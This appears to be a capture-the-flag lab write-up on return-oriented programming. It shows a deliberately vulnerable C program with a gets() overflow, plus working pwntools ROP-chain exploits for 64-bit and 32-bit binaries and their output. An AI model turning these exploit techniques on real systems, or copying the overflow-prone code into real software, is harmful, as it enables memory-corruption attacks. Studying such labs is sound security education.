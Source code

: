 # Intro To ROP

## Task 3 - First ROP
We inspect the files that are in the `~\first_rop` directory. Running a `checksec` on `three_locks` gives us a pretty vulnerable binary.
```console
buzz@intro2rop:~/first_rop$ checksec three_locks
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/buzz/first_rop/three_locks'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
With [`NX enabled`](https://en.wikipedia.org/wiki/NX_bit), the binary does not allow us to both write or execute on memory, `stack`. This feature is the thus called `write XOR execute`. 
Because of this, `ROP` is needed wherein we use operands, or `gadgets`, within the binary itself to execute. Which gadgets are useful, can we understand through looking at the `three_locks.c` source code.
```C
#include <stdio.h>
// global variables
FILE *fp; // file pointer
char buffer[255]; //buffer to hold flag data

void lock1(int key){
	if (key == 5){
		fp = fopen("flag.txt", "r");
		printf("Lock 1 unlocked!\n");
	}
	else {
		printf("Sorry, lock 1 was not opened.");
	}
	return;
}

void lock2(int key1, int key2){
	if (key1 == 42 && key2 == 1776) {
		fgets(buffer, 255, fp);
		printf("Lock 2 unlocked!\n");
	}
	else {
		printf("Sorry, lock 2 was not opened.");
	}
	return;
}
void lock3() {
	printf("Lock 3 is a gimmie. If you get the other 2, this should work.\nHere is you flag (hopefully):\n");
	printf("%s\n", buffer);
}

void start(){
	char name[24];
	gets(name);
//	lock1(5);
//	lock2(42, 1776);
//	lock3();
	return;
}

int main() {
	printf("We need to unlock 3 locks to print the flag!\n");
	start();
	return 0;
}
```
Reading through the code, we can understand that bypassing the three locks is the key to be able to see the flag. In `lock1`, an argument is needed that is checked against `5`, while `lock2` requires two arguments. Running a simple `ret` to `lock3()` isn't going to cut it. Now, we need a deeper understanding of ROP to be able to manipulate the input in these functions' arguments. Luckily, given some thinking, gadgets such as `pop rdi; ret` allow us to pass arguments to these functions. `rdi`, `rsi`, and `rdx` are among the registers that handle functional arguments. You can read more [here](https://web.stanford.edu/class/archive/cs/cs107/cs107.1222/guide/x86-64.html).

In fact, this is enough to start writing our exploit. Here is the exploit that I used:
```python
from pwn import *

context.update(arch='amd64', os='linux')
p = process("./three_locks")

#useful locations
lock1 = 0x400607
lock2 = 0x400654
lock3 = 0x4006ae
pop_rdi = 0x0000000000400773
pop_rsi_r15 = 0x0000000000400771

#payload construction (ropping)
payload = cyclic(cyclic_find("kaaa")) #overflow the buffer into ret address
payload += p64(pop_rdi) #jump to first gadget and pop the stack's next value into rdi
payload += p64(5)
payload += p64(lock1) #jump to lock1
payload += p64(pop_rdi) #pop stack's value into rdi 
payload += p64(42)
payload += p64(pop_rsi_r15) #into rsi and r15 
payload += p64(1776)
payload += p64(0xdeadbeef) #dummy value
payload += p64(lock2)
payload += p64(lock3)

p.sendline(payload)
p.interactive()
```

The address for `pop rdi; ret` was found by typing in the console `ropper -f <target> --search "<desire operand>"`. In the case for `pop rsi`, the only found instance is with the local variable `r15`. This is why a dummy value was passed for this. 

In total, what the ROP-chain does is this:
1. `cyclic_find` gives us the location of the `ret` address, allowing us to manipulate the return address.
2. `ret` first jumps to `pop rdi` which then `pops` the first value on the stack `into rdi`. In this case, after the `pop_rdi` address in the payload is `5`.
3. next instruction then moves to `lock1` with that `rdi` argument of `5`, bypassing the lock
4. we do the same as 2. but pop for `rdi` and `rsi` with `42` and `1776` sequentially, before calling `lock2`
5. at this point, we have bypassed the two locks and can now print the flag.

Using the script above, we get the flag:

```console
buzz@intro2rop:~/first_rop$ python3 exploit.py
[+] Starting local process './three_locks': pid 12219
[!] cyclic_find() expected a 4-byte subsequence, you gave b'kaa'
    Unless you specified cyclic(..., n=3), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=3) to override this.
[*] Switching to interactive mode
We need to unlock 3 locks to print the flag!
Lock 1 unlocked!
Lock 2 unlocked!
Lock 3 is a gimmie. If you get the other 2, this should work.
Here is you flag (hopefully):
flag{F1r5t_ROP_c0mpl3t3}
```
## Task 4 - ROP with 32-bit binary
Of course, with a binary accustomed to a different computer architecture, the registers, operands, and the way we do ROP change a little. The changes aren't that too big from `Task 3`. Instead of searching for `pop rdi` using `ropper` in `amd64` or in `64-bit` computers, we only need a `pop` instruction. `i386` does not use registers for functional arguments as the task above demonstrates. 

To find addresses of the lock functions, use `gdb` with `p lock1` etc. This should print the address. As usual, for the `ret` address initially, one must use a cyclic input to identify this padding. You can run `cyclic 100 > find` then `gdb <target>` on the terminal and `r < find` on gdb. This should give us an idea of the padding. Using `pwndbg` or `gef` to enchance your exploit development phase is invaluable.

Our script from before can be adjusted as below.

```C
from pwn import *

context.update(arch='i386', os='linux')
p = process("./three_locks_32")

#useful locations
lock1 = 0x8048506
lock2 = 0x804856d
lock3 = 0x80485da
pop_ret = 0x08048361

#payload construction (ropping)
payload = cyclic(cyclic_find("jaaa"))
payload += p32(lock1)
payload += p32(pop_ret)
payload += p32(5)
payload += p32(lock2)
payload += p32(lock3)
payload += p32(42)
payload += p32(1776)

p.sendline(payload)
p.interactive()
```

Running our exploit yields the result below.

```console
buzz@intro2rop:~/32_rop$ python3 exploit.py
[+] Starting local process './three_locks_32': pid 12391
[*] Switching to interactive mode
We need to unlock 3 locks to print the flag!
Lock 1 unlocked!
Lock 2 unlocked!
Lock 3 is a gimmie. If you get the other 2, this should work.
Here is you flag (hopefully):
flag{Thr33_Tw0_D0N3}
```

